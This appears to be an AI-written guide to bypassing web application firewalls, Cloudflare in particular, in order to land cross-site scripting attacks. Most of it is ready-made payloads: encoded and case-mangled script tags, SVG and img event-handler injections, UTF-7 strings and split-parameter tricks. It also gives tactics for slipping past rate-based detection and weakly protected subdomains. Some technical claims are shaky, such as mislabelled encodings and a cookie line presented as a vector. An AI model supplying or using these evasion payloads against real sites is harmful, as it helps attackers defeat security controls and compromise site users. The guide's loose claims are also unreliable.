 ```yaml
---
title: "Bypassing a Web Application Firewall (WAF) for XSS exploits"
tags:
  - WAF-bypass
---
```


Bypassing a Web Application Firewall (WAF) for XSS (Cross-Site Scripting) exploits requires a combination of techniques to evade detection mechanisms. Here’s a comprehensive approach to bypass WAFs when testing XSS vulnerabilities, relevant to your scenario with DalFox and Cloudflare WAF.

---

### **1. Understand WAF Behavior**
Before attempting to bypass:
- **Review server responses**: Check how different payloads are filtered or transformed.
- **Identify blocked keywords and patterns**: Pay attention to blocked scripts, tags, or common terms like `script`, `onload`, and `alert`.

---

### **2. Common XSS Payload Bypass Techniques**
#### **1. Character Encoding Variations**
Encoding payloads hides the attack vectors from basic filters. Use:
- **Hexadecimal Encoding**:  
  Example: `<script>alert(1)</script>` → `%3Cscript%3Ealert%281%29%3C/script%3E`
- **Double URL Encoding**:  
  Encode twice for deeper filters: `%253Cscript%253Ealert%25281%2529%253C/script%253E`
  
#### **2. Case Manipulation**
Most WAFs are case-sensitive for keywords.
- `script` → `ScRiPt`
- `onload` → `OnLoAd`

---

### **3. Breaking Up Keywords**
Inject payloads with character splitting or concatenation.
- `<scr` + `ipt>alert(1)</scr` + `ipt>`
- Inject comments or null bytes:  
  ```
  <scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
  ```

---

### **4. HTML Entity Encoding**
Obfuscate characters using HTML entities.
- `<script>` → `&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;`
- Payload: `&#x3C;svg&#x20;onload&#x3D;alert(1)&#x3E;`

---

### **5. Alternate Scriptless XSS Payloads**
Use techniques that don’t explicitly rely on `<script>`.
1. SVG:  
   ```html
   <svg onload="alert(1)">
   ```
2. Image XSS:  
   ```html
   <img src=x onerror=alert(1)>
   ```
3. `javascript:` URI:  
   ```html
   <a href="javascript:alert(1)">Click me</a>
   ```

---

### **6. Using Non-Alphanumeric Payloads**
Some WAFs filter based on alphanumeric sequences.
- Example payload using fewer alphabets:  
  ```html
  <svg/onload=alert`1`>
  ```

---

### **7. JSON-Based and DOM Context Manipulation**
If responses use JSON or DOM content, use specific payloads like:
```javascript
{"key":"\";alert(1);//"}
```
Or:
```html
"><svg onload=alert(1)>
```

---

### **8. Bypassing Input Length Restrictions**
Split the payload across multiple parameters:
1. First payload in one parameter: `"><`
2. Second payload in another: `svg onload=alert(1)>`

---

### **9. Specific Cloudflare WAF Bypass Strategies**
Cloudflare actively monitors payload signatures and behaviors, so:
1. **Randomize or encode payloads**:
   - Cloudflare often detects standard payloads like `<script>alert(1)</script>`.
   - Use obfuscation:
     ```html
     <svg/onload=confirm`1`>
     ```
2. **Use alternate event handlers or DOM elements**:
   - Instead of `onload`, try `onfocus`, `onscroll`, or `onclick`.
   - `<input autofocus onfocus="alert(1)">`
3. **Subdomain-specific bypassing** (if WAF rules are not global):  
   - Test smaller subdomains or API endpoints where protections are weaker or misconfigured.

---

### **10. Double Submission and Cache Poisoning**
Bypass restrictions with split payloads over multiple requests:
1. **First** request sends benign data (to store in a cache or state variable).
2. **Second** request sends a crafted payload that uses the cached value.

---

### **11. Using JavaScript Template Literals**
For bypassing content filters in JavaScript:
```javascript
`<svg/onload=alert\`1\`>`
```

---

### **12. Advanced Content Injection**
Leverage context-specific injections:
- Use `innerHTML` for direct HTML injection vulnerabilities:
  ```html
  <div id="output"></div>
  <script>
    document.getElementById("output").innerHTML = "<img src=x onerror=alert(1)>";
  </script>
  ```

---

### **13. XSS via UTF-7 Encoding**
If character set encoding is poorly configured, attempt UTF-7 payloads:
```html
+ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

---

### **14. WAF Signature Variants for Cloudflare**
When facing Cloudflare’s behavioral analysis:
- **Time-based obfuscation**: Send smaller payloads over a longer period to avoid detection based on burst patterns.
- **Alternate delivery vectors**:  
  Try payloads within different request types:
  - Headers: `Referer`, `User-Agent`, `X-Forwarded-For`
  - Cookies:  
    ```javascript
    document.cookie = 'alert=1';
    ```

---

### **Combining Techniques**
Most successful bypasses are a combination of methods:
- Use an **encoded payload**, **case variation**, and **split elements** together:
  ```html
  <img sRc="x" oNeRroR=alert(1)>
  ```

---

### **Tools and Resources**
1. **DalFox (for XSS discovery)**: Automate payload discovery.
2. **Burp Suite (manual and automated WAF bypassing)**: Use extensions like **Turbo Intruder** for payload injection.
3. **PayloadAllTheThings**: Comprehensive repository of payloads.

---

### **Closing Thoughts**
Bypassing a WAF requires creativity and an understanding of how inputs are sanitized or blocked. An iterative approach using varying payloads, encodings, and delivery methods, combined with detailed analysis of responses, often leads to success.

